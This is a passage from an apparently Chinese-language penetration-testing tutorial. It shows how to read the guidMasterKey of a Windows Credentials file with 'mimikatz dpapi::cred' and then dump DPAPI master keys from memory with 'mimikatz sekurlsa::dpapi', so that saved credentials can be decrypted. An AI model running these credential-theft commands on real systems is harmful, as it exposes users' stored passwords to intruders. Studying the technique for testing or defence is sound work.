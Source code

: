 ### 2.5.3. 查找guidMasterKey值

这里需要将目标的Credentials记录guidMasterKey值记录下来，还有这里前面的路径一定要更具自己的路径来，不要直接复制粘贴，否则会出现错误。

```
mimikatz dpapi::cred /in:C:\Users\Administrator\appdata\local\microsoft\credentials\6090C0FC3FE42D73866869883B167718
```

![image-20230809212826068](assets/image-20230809212826068.png)

### 2.5.4. 记录MasterKey

这里需要将guidMasterKey对应的MasterKey记录下来。

```
mimikatz sekurlsa::dpapi
```
